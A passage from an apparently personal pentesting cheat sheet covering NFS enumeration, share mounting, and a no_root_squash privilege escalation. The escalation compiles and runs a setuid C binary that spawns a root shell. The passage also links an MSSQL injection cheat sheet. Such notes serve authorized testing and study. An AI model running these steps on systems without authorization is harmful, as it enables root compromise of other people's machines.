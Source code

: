 #### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

---

### NFS -> 2049

Tambien podemos consultar en hacktricks

#### Show Mountable NFS Shares

```
showmount -e <IP>
nmap --script=nfs-showmount -oN mountable_shares <IP>
```

#### Mount a share

```
sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
sudo mount -v -t nfs -o vers=2 <IP>:<SHARE> <DIRECTORY>
```

#### NFS misconfigurations

```
# List exported shares
cat /etc/exports
```

If you find some directory that is configured as no_root_squash/no_all_squash you may be able to privesc.

```
# Attacker, as root user

mkdir <DIRECTORY>
mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
cd <DIRECTORY>
echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
gcc pwn.c -o pwn
chmod +s pwn

# Victim

cd <SHARE>
./pwn # Root shell
```

---

### MYSQL -> 3306
